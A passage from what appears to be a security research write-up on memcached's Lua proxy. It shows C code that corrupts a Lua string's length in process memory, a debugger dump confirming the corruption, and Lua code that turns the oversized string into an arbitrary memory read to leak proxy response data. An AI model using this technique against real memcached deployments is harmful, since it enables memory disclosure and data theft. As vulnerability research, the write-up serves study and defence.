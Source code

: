 ```
  struct iovec local[1];
  struct iovec remote[1];

  // update length
  local[0].iov_base = MAXLEN;
  local[0].iov_len = 16;
  remote[0].iov_base = address + (sizeof(int) * 4);
  remote[0].iov_len = 16;

  nwrite = process_vm_writev(pid, local, 1, remote, 1, 0);
  if(nwrite <= 0) {
    printf("[-] Failed to update lnglen: %s\n", strerror(errno));
    return -1;
  }

  return 0;
}
```

And after modifying one, we can confirm:
```
gef➤  p/x *(TString*)0x7898c001fc50
$2 = {
  next = 0x7898c001fb80,
  tt = 0x14,
  marked = 0x8,
  extra = 0x0,
  shrlen = 0x0,
  hash = 0x37b5b67f,
  u = {
    lnglen = 0x7fffffff,
    hnext = 0x7fffffff
  },
  contents = {0x0}
}
```
We can then use this and the string's `sub` function to read out arbitrary bytes of data from memory. In our case the target is the `mcp_resp_t` object. To do this, we need to figure out where our response object is located in memory. This turns out to be pretty simple in `allsync_f`, as the entire point of the function is to *build* the response and return it to C-land for further processing. In this case, it's the `final` object, and we can fetch its address using the following Lua code:
```
function getaddr(value)
  return tonumber(string.format("%p",value))
end

getaddr(final)
```
With this, we calculate the offset between our big string and the response and we're on our way. The response object is a [memcached type](https://github.com/memcached/memcached/blob/b1aefcdf8a265f8a5126e8aa107a50988fa1ec35/proxy.h#L493) `mcp_resp_t` and our response buffer is a pointer. So we'll need to read this address then read the response. This results in the following flow:
```
-- calculate distance between our str and reply
distance = (getaddr(final)-getaddr(BIGSTRING))-24

-- read address of reply str
outp = to_bo_hex(BIGSTRING:sub(distance+9, distance+16))
outp = tonumber(outp,16)

-- read string and dump
str = (outp-getaddr(BIGSTRING))-23

print("[+] received allsync request, response:")
```